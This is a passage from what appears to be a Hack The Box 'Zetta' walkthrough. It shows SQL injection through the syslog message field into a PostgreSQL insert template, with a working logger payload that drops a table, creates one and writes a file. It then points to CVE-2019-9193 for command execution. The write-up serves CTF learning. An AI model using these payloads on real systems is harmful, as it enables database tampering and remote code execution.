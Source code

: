 ![8781dc2a.png](/assets/images/posts/zetta-htb-walkthrough/8781dc2a.png)
</a>

Looking at the template SQL statement, it\'s possible to inject SQL statements, through the `syslog` message field, `%msg%`.

```
INSERT INTO syslog_lines (message, devicereportedtime) values ('%msg%', '%timereported%')
```

Let\'s try this.

```
$ logger -s -p local7.info "', now()); DROP TABLE IF EXISTS moss; CREATE TABLE moss(t TEXT); INSERT INTO moss(t) VALUES (\$\$hello\$\$); COPY moss(t) TO \$here\$/tmp/moss\$here\$; -- -"
```

<a class="image-popup">
![6ad1dc12.png](/assets/images/posts/zetta-htb-walkthrough/6ad1dc12.png)
</a>

Awesome. It works!

### CVE-2019-9193 - It's NOT a Security Vulnerability

>  In PostgreSQL 9.3 through 11.2, the "COPY TO/FROM PROGRAM" function allows superusers and users in the 'pg_execute_server_program' group to execute arbitrary code in the context of the database's operating system user.

Armed with the previous insight, we can probably make use of [CVE-2019-9193](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-9193) to execute commands. Let\'s see if this version is "vulnerable". :laughing:
